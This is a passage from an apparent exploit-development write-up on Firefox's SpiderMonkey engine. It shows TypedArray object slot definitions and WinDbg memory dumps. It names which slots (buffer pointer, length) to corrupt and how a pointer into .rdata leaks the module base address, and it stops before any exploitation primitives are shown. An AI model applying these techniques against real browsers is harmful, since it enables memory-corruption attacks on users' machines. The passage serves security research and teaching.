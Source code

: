 By looking at the source-code, we learn that TypedArrays are `js::TypedArrayObject` which subclasses `js::ArrayBufferViewObject`. What we want to know is basically in which slot the buffer size and the buffer pointer are stored (so that we can corrupt them):

```C++
class ArrayBufferViewObject : public NativeObject
{
  public:
    // Underlying (Shared)ArrayBufferObject.
    static constexpr size_t BUFFER_SLOT = 0;
    // Slot containing length of the view in number of typed elements.
    static constexpr size_t LENGTH_SLOT = 1;
    // Offset of view within underlying (Shared)ArrayBufferObject.
    static constexpr size_t BYTEOFFSET_SLOT = 2;
    static constexpr size_t DATA_SLOT = 3;
// [...]
};

class TypedArrayObject : public ArrayBufferViewObject
```

Great. This is what it looks like in the debugger:

```text
0:000> ?? vp[2]
union JS::Value
   +0x000 asBits_          : 0xfffe0216`3cb019e0
   +0x000 asDouble_        : -1.#QNAN 
   +0x000 s_               : JS::Value::<unnamed-type-s_>

0:000> dt js::NativeObject 216`3cb019e0
   +0x000 group_           : js::GCPtr<js::ObjectGroup *>
   +0x008 shapeOrExpando_  : 0x00000216`3ccac948 Void
   +0x010 slots_           : (null) 
   +0x018 elements_        : 0x00007ff7`f7ecdac0 js::HeapSlot

0:000> dqs 216`3cb019e0
00000216`3cb019e0  00000216`3cc7ac70
00000216`3cb019e8  00000216`3ccac948
00000216`3cb019f0  00000000`00000000
00000216`3cb019f8  00007ff7`f7ecdac0 js!emptyElementsHeader+0x10
00000216`3cb01a00  fffa0000`00000000 <- BUFFER_SLOT
00000216`3cb01a08  fff88000`00000008 <- LENGTH_SLOT
00000216`3cb01a10  fff88000`00000000 <- BYTEOFFSET_SLOT
00000216`3cb01a18  00000216`3cb01a20 <- DATA_SLOT
00000216`3cb01a20  00000000`00000000 <- Inline data (8 bytes)
```

As you can see, the length is a `js::Value` and the pointer to the inline buffer of the array is a raw pointer. What is also convenient is that the `elements_` field points into the `.rdata` section of the JavaScript engine binary (`js.exe` when using the JavaScript Shell, and `xul.dll` when using Firefox). We use it to leak the base address of the module.

With this in mind we can start to create exploitation primitives:
